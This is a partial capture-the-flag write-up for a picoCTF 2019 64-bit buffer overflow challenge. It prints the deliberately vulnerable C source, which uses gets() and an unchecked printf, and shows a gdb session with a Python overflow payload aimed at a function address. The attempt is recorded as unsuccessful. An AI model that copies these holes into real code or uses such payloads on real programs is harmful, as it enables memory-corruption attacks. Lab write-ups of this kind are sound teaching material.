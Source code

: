 It is solvable with the same steps for [NewOverFlow1](https://github.com/alshaboti/CTFs/blob/master/picoCTF2019/NewOverFlow1-x64.MD),
as the flag function exists we can directly print the flag as we did in NewOverFlow1.

This challenge suppose to have no flag funciton, then we will have to print it through win_fun.
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <stdbool.h>

#define BUFFSIZE 64
#define FLAGSIZE 64

bool win1 = false;
bool win2 = false;

void win_fn1(unsigned int arg_check) {
  if (arg_check == 0xDEADBEEF) {
    win1 = true;
  }
}

void win_fn2(unsigned int arg_check1, unsigned int arg_check2, unsigned int arg_check3) {
  if (win1 && \
      arg_check1 == 0xBAADCAFE && \
      arg_check2 == 0xCAFEBABE && \
      arg_check3 == 0xABADBABE) {
    win2 = true;
  }
}

void win_fn() {
  char flag[48];
  FILE *file;
  file = fopen("flag.txt", "r");
  if (file == NULL) {
    printf("'flag.txt' missing in the current directory!\n");
    exit(0);
  }

  fgets(flag, sizeof(flag), file);
  if (win1 && win2) {
    printf("%s", flag);
    return;
  }
  else {
    printf("Nope, not quite...\n");
  }


  

}

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("'flag.txt' missing in the current directory!\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Welcome to 64-bit. Can you match these numbers?");
  vuln();
  return 0;
}

```

# Attempt1:
I tried to overwrite `win` and `win2` variables with `1` (i.e. true) then jump to `win_fun`, but for some reason it shows `'flag.txt' missing in the current directory!`

```
<get win_fn address>
$gdb vuln
(gdb) b vuln
(gdb) r
(gdb)disass win_fn
0x00000000004007bf

< break just after gets at vuln>
(gdb) disass vuln
0x00000000004008cb
(gbd) b *0x00000000004008cb
(gdb) r <<< python -c 'import struct; print("A"*72+struct.pack("<I",0x00000000004007bf) )'




<get win1 and win2 address then overwite them>
(gdb)p (int) win1
0
(gdb)info add win1
0x601079
(gdb)info add win2
0x60107a
(gdb) set {char}0x601079=1
(gdb) set {char}0x60107a=1



```
